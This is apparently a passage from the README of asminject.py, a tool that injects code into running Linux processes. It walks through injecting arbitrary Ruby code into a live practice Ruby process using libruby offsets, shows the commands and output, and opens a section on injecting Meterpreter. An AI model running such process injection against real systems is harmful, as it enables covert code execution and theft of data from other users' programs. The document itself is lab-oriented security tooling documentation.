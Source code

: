 Ruby has a similar "compile and execute this sequence of Ruby source code" method. The current code for it in `asminject.py` has a few limitations, but it does work:

* No ability to require additional Ruby gems
* The targeted process will lock up after the injected code finishes executing

This payload requires one variable: `rubycode`, which should contain the Ruby code you want to execute in the existing Ruby process.

This payload requires relative offsets for the `libruby` shared library used by the target process.

In one terminal window, launch the practice Ruby loop, e.g.:

```
$ ruby practice/ruby_loop.rb

2022-05-12T13:40:51-0700 - Loop count 0
2022-05-12T13:40:56-0700 - Loop count 1
2022-05-12T13:41:01-0700 - Loop count 2
```

In a separate window, get the appropriate `libruby` offsets, find the target process, and inject the code:

```
# ./get_relative_offsets.sh /usr/lib/x86_64-linux-gnu/libruby-2.7.so.2.7.4 > relative_offsets-libruby-2.7.4.txt

# ps auxww | grep ruby | grep -v grep

root     2037714  2.0  0.3  77888 13580 pts/9    S+   13:44   0:00 ruby practice/ruby_loop.rb

# python3 ./asminject.py 2037714 asm/x86-64/execute_ruby_code.s --relative-offsets relative_offsets-libruby-2.7.4.txt  --stop-method "slow" --var rubycode "puts(\\\"Injected Ruby code\\\")"
```

In the first window, note that the loop is interrupted by the injected code, but fails to continue executing the original loop even though the process remains running:

```
2022-05-12T13:44:41-07:00 - Loop count 7
2022-05-12T13:44:46-07:00 - Loop count 8
Injected Ruby code

```

## Inject Meterpreter into an existing process

Launch a harmless process that simulates one with access to super-secret, sensitive data:

```
$ sudo python3 practice/python_loop.py

2022-05-12T20:11:30.614271 - Loop count 0
2022-05-12T20:11:35.616574 - Loop count 1
2022-05-12T20:11:40.620506 - Loop count 2
```
